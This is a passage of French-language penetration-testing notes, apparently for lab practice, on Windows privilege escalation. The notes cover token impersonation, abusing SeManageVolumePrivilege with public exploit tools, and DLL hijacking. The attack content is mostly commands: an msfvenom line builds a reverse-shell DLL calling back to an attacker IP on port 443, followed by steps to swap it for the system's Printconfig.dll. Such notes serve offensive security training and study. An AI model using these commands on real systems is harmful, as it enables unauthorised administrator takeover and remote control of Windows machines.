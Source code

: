 Si impossible de lancer un processus, il est toujours possible d'usurper le compte administrator et naviguer sur le FS en tant que tel. 

Impersonation du user

```
$token.Impersonate()
```

Possible ensuite de faire un Service Binary Hijacking, DLL hijacking... ou de modifier des fichiers accessibles pour le user Administrator.


---
# SeManageVolumePrivilege

> [!TIP]
> Permet de s'octroyer tous les droits sur C:\
> Permet ensuite de faire du DLL hijacking, Service Binary hijacking, voler clé privé de CA...
> 

https://github.com/CsEnox/SeManageVolumeExploit -> précompilé
https://github.com/xct/SeManageVolumeAbuse

```
.\SeManageVolumeExploit.exe
```

Vérifier les droits sur C:\

```
icacls C:\
```

## DLL Hijacking

### Printconfig.dll

Path : "C:\Windows\System32\spool\drivers\x64\3"

1. Générer Printconfig.dll avec MSFVENOM

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.177 LPORT=443 -f dll -o Printconfig.dll
```

2. Renomer la dll originale sur la target

```
mv "C:\Windows\System32\spool\drivers\x64\3\Printconfig.dll" "C:\Windows\System32\spool\drivers\x64\3\Printconfig.dll.old"
```

3. Copier notre dll dans le path

```
cp Printconfig.dll "C:\Windows\System32\spool\drivers\x64\3\"
```
